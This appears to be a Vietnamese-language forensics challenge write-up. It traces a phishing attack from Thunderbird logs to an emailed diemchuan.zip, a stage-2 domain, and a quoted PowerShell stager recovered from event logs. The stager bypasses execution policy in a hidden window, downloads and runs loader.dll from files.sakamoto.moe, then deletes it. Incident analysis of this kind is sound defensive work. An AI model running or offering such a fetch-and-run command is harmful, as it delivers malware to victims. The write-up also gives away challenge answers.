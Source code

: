Q1 : The user opened a software that contained malicious content from the attacker. What was the name of the software? Ex: Skype

với câu hỏi đầu tiên này, khi check log thì mình có thấy một điều khá lạ là ở event ID 4798 (tiến trình liệt kê nhóm người dùng) nhưng lại chạy bởi process name : 
C:\Program Files\Mozilla Thunderbird\thunderbird.exe

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/87b21c01-f949-4965-bb75-4313bf144429" />

với mail client như thunderbird lại có hành động như vậy khá đáng nghi và có thể đang thực hiện quá trình recon xem máy nạn nhân có những quyền gì khi mã độc được kích hoạt, nên đáp án chính là 

thunderbird



Q2: khi đã tìm đc phần mềm thì mình theo đó tìm được mail nạn nhân nhận được từ hacker tại C:\Users\tmq\AppData\Roaming\Thunderbird\Profiles\pr232cok.default-release\Mail\pop.gmail.com\Inbox
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ff1d9349-a130-44c5-8079-acfb71c460fd" />


và mình thấy file đó chính là diemchuan.zip . Và đoạn base64 ở dưới khi mình decode ra chính alf file zip đó, và trong file zip đó chauws một file chính là “diemchuan.html”
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/e1a76b65-0bfb-4bfd-acb5-bb69ee04e121" />


và đó cũng là đáp án của Q2.

Q3: dựa theo những thông tin tìm được trên thì mình thấy khá giống với attacker đã sử dụng cách thức là phishing để lừa nạn nhân thông qua file điểm chuẩn 


và việc đính kèm thêm file độc hại theo thì mình tìm hiểu giống với Technique: MITRE ATT&CK T1566.001 – Spearphishing Attachment.


Q4:  What is the domain of the website where the malicious file for stage 2 is located?
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/5e100a8f-12fa-4c2f-92e2-d0453dc5d6bd" />

sau khi tải về file diemchuan.zip, mình giải nén và mở nó lên, tại đây mình thấy một domain website là https://files.sakamoto.moe/cba5703ee7fd_word.gif

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/20ee3292-58ac-43ad-976d-1358db8aa7ff" />

khi mở link đó như này, thì mình nghĩ nó là link độc hại cho stage 2

domain : sakamoto.moe


Q5:Digging into the malicious file, what was the original name of the encrypted file that was downloaded?
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/eee33793-4353-49f0-aa17-9c5cd1ceb495" />

trong evtx windows powershell mình có thấy có đoạn script 

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep Bypass —W hidden ―cOMma [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; $p = Join-Path $env:TEMP l.dll; iwr https://files.sakamoto.moe/41dbe7ac7b73_loader.dll -OutFile $p; Start-Process rundll32 -ArgumentList $p,Run -Wait; del $p -Force
